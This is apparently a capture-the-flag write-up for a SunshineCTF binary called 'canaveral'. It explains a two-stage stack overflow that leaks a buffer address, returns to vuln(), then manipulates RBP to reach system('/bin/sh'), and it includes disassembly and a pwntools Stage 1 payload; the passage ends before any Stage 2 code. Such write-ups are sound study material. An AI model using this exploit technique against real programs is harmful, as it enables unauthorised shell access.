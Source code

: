 **Solution:** Use two separate inputs!

### Stage 1: Leak Stack Address

**Goal:** Get the buffer address and keep the program alive

**How:**
1. Overflow the return address to point back to `vuln()`
2. `printf()` leaks the buffer address
3. Program returns to `vuln()` instead of exiting
4. `vuln()` runs again, waiting for Stage 2 input

### Stage 2: Exploit with Known Address

**Goal:** Use the leaked address to exploit

**How:**
1. Calculate fake RBP using leaked address
2. Overflow with carefully crafted payload
3. Control RBP to make `[rbp-0x10]` point to our data
4. Jump to 0x401218 to execute `system("/bin/sh")`

---

## Stage 1: Stack Address Leak

### Understanding What Gets Leaked

**Question:** What address is being leaked?

The code shows:

```asm
40129f:	lea    rax,[rbp-0x40]        ; RAX = buffer address
4012a3:	mov    rsi,rax               ; RSI = buffer address
4012b5:	call   4010b0 <printf@plt>   ; printf("... %p", buffer_address)
```

**Answer:** The **buffer start address** (where buffer[0] is located) gets printed!

```c
printf("Successful launch! Here's your prize: %p\n", buffer);
                                                      ↑
                                        This is &buffer[0], NOT RBP!
```

### Stage 1 Payload

```python
from pwn import *

elf = ELF("./canaveral")
p = remote("chal.sunshinectf.games", 25603)

# Address of vuln() function
vuln_addr = 0x401231

# Stage 1: Leak buffer address and return to vuln
payload = b"A" * 0x40           # Fill buffer (64 bytes)
payload += p64(0)               # Overwrite saved RBP (8 bytes)
payload += p64(vuln_addr)       # Return to vuln() (8 bytes)

p.sendlineafter(b"sequence: ", payload)
```
